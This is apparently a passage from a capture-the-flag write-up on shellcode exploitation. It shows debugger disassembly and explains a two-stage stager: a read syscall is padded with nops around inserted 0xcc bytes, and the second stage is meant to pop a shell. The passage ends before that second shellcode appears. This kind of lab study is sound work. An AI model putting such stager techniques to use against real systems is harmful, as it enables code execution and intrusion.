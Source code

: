 ```
   0x7ffff7ff6006:  xor    rax,rax
   0x7ffff7ff6009:  xor    rbx,rbx
   0x7ffff7ff600c:  xor    rcx,rcx
   0x7ffff7ff600f:  xor    rdx,rdx
   0x7ffff7ff6012:  xor    rsi,rsi
   0x7ffff7ff6015:  xor    rdi,rdi
   0x7ffff7ff6018:  xor    r8,r8
   0x7ffff7ff601b:  xor    r9,r9
   0x7ffff7ff601e:  xor    r10,r10
   0x7ffff7ff6021:  xor    r11,r11
   0x7ffff7ff6024:  xor    r12,r12
   0x7ffff7ff6027:  xor    r13,r13
   0x7ffff7ff602a:  xor    r14,r14
   0x7ffff7ff602d:  xor    r15,r15
   0x7ffff7ff6030:  xor    BYTE PTR [rax],dh
   0x7ffff7ff6032:  xor    BYTE PTR [rax],dh
   0x7ffff7ff6034:  xor    ah,cl
   0x7ffff7ff6036:  xor    BYTE PTR [rax],dh
gef➤  x/4g 0x7ffff7ff6030
0x7ffff7ff6030: 0x3030cc3030303030  0x3030303030cc3030
0x7ffff7ff6040: 0x303030cc30303030  0x0000cc0a30303030
```

We see that the xoring the registers to zero ends at `0x7ffff7ff60300`, which is where we can see is where our input starts (which our input was 25 `0`s followed by a newline character). In addition to that, we can see that it did insert a `0xcc` byte at offsets `5, 10, 20, & 29`.

So what I ended up doing was using two sets of shellcode. The first was just to make a syscall to read to scan in additional shellcode (since the shellcode to pop a shell would be harder to fit in due to the constraints). Then I would just scan in the shellcode to pop a shell without the size / no null bytes / 0xcc inserted restrictions, and then jump to it. I tried for a little bit to just get the shell using only one set of shellcode, however I couldn't do it.

Here is the shellcode that I used to scan it in (with the `0xcc` bytes inserted). There are a lot of nops to ensure the `0xcc` don't mess with any instructions. This shellcode will scan in data with a read syscall (more info here: https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ ). Also for this, the `rax` register is already set to `0x0` to specify a read syscall so we don't need to edit it. In addition to that the `rdi` register is also set to `0x0` which specifies stdin as a result of the xoring that takes place before our shellcode, so the only registers we need to worry about is that of `rsi` which points to where the data will be scanned in and `rdx` which holds the size for the amount of data to be scanned in. For `rdx` I just move in the value `0xff` which gives us more than enough room. For where to scan in our shellcode, I choose the same memory region that our shellcode runs in. The permissions on it are `rwx` so we won't have a problem writing and executing to it, plus the `rip` register will hold a pointer to it. Plus we have a pointer to that region in the `rip` register. I just moved the contents of the `rip` register (minus a little bit) into the `rsi` register, then added `0x43` to it. That way it moved where the new shellcode will be scanned in past this shellcode, and we won't overwrite this shellcode with the new one. Then I just jumped to `rsi` since that holds a pointer to where our new shellcode is:

```
gef➤  x/20i $rip
=> 0x7f6e87b34030:    mov    dl,0xff
   0x7f6e87b34032:    nop
   0x7f6e87b34033:    nop
   0x7f6e87b34034:    nop
   0x7f6e87b34035:    int3   
   0x7f6e87b34036:    nop
   0x7f6e87b34037:    nop
   0x7f6e87b34038:    nop
   0x7f6e87b34039:    nop
   0x7f6e87b3403a:    int3   
   0x7f6e87b3403b:    lea    rsi,[rip+0xfffffffffffffff8]        # 0x7f6e87b3403a
   0x7f6e87b34042:    nop
   0x7f6e87b34043:    nop
   0x7f6e87b34044:    int3   
```